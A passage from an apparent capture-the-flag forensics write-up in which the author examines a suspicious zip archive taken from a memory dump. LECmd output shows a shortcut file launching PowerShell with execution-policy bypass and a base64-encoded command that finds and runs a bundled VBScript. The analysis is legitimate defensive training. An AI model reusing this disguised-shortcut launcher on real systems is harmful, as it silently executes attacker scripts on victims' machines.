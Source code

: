 I'm using [fil](https://github.com/file-go/fil) which is an equivalent for `file` from Linux, just one that works on Windows.

Either way, we've pulled two files out from the memory dump with Volatility, so let's take a peek inside the zip archive.

![present_for_santa.zip](/img/htb/sherlock/optinseltrace-3/present_for_santa.png)

Well, this looks suspiciously like a payload. I think this zip file is the one of the first things in the attack chain.

{% include item.html type="answer" id="1" description=page.question_1 answer="present_for_santa.zip" %}

## Question 2
{% include item.html type="question" id="2" question=page.question_2 %}

When we are looking at the zip contents, we see a `lnk` shortcut file, and a `VB Script` file. Let's check out the shortcut file with [LECmd](https://ericzimmerman.github.io/#!index.md):
{% highlight powershell %}
LECmd.exe -f .\click_for_present.lnk
LECmd version 1.5.0.0

... TRUNCATED ...

Name: Trick or treat
Relative Path: ..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Arguments: -ep bypass -enc JABmAGkAbABlACAAPQAgAEcAZQB0AC0AQwBoAGkAbABkAEkAdABlAG0AIAAtAFAAYQB0AGgAIAAiAEMAOgBcAFUAcwBlAHIAcwBcACIAIAAtAEYAaQBsAHQAZQByACAAIgBwAHIAZQBzAGUAbgB0ACoALgB2AGIAcwAiACAALQBGAGkAbABlACAALQBSAGUAYwB1AHIAcwBlAHwAIABTAGUAbABlAGMAdAAtAE8AYgBqAGUAYwB0ACAALQBFAHgAcABhAG4AZABQAHIAbwBwAGUAcgB0AHkAIABGAHUAbABsAE4AYQBtAGUAOwBjAHMAYwByAGkAcAB0ACAAJABmAGkAbABlAA==
Icon Location: C:\Windows\System32\shell32.dll

... TRUNCATED ...
{% endhighlight %}
